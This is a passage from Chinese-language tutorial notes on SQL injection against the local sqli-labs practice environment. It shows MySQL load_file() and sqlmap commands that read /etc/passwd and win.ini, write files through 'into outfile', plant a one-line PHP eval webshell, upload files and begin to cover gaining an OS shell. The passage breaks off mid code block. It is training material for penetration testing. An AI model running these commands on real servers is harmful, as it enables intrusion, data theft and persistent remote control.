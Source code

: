 ```

```
//windows系统下：
load_file("c:/windows/win.ini")		//可以使用16进制编码来操作内容
load_file("c://windows//win.ini")
load_file("c:\\windows\\win.ini")
//Linux系统下：
load_file("/etc/passwd")
```

###### ②--file-read()

* 原理：利用**load_file()**函数

```
sqlmap -u [url] --file-read "文件绝对路径"		//读取文件可以是文本、二进制文件

python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-1/?id=1" --file-read "D:\phpstudy_pro\WWW\test.txt"
```

##### b. 写文件

###### ①满足条件

1. 有**写文件**权限
   * **secure-file-priv**要么禁用，要么设置了路径
   * mysql有对某个**目录读写**的权限
2. **知道绝对路径**
3. 必须能**绕过单引号过滤**

###### ②使用--sql-query、--sql-shell

* 原理：利用mysql的 **outfile、dumpfile**函数

```
1. 向文件写入内容
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select 1,2,'aaa' into outfile 'D:\phpstudy_pro\test5.txt'" --batch
2. 写入webshell
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select '<?php eval($_POST[1]);?>' into outfile 'D:\phpstudy_pro\WWW\shell3.php'";		//可以转化为16进制写入
3. 获取绝对路径
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select @@datadir;"
4. 查看secure_file_priv的值
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select @@secure_file_priv;"
```

##### c. 上传文件

###### ①--file-write、--file-dest

```
sqlmap -u [URL] --file-write [源路径的绝对地址] --file-dest [目的路径的绝对地址]
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-8/?id=1" --file-write "C:\\123.txt" --file-dest "C:\\phpstudy_pro\\www\\test.php"
```

##### d. 执行命令

###### ①-os-shell \ --os-cmd

* 原理：利用mysql的**outfile、dumpfile等写文件**函数，先写入一个具有上传功能的shell，再上传一个大马，从而执行各种命令。

```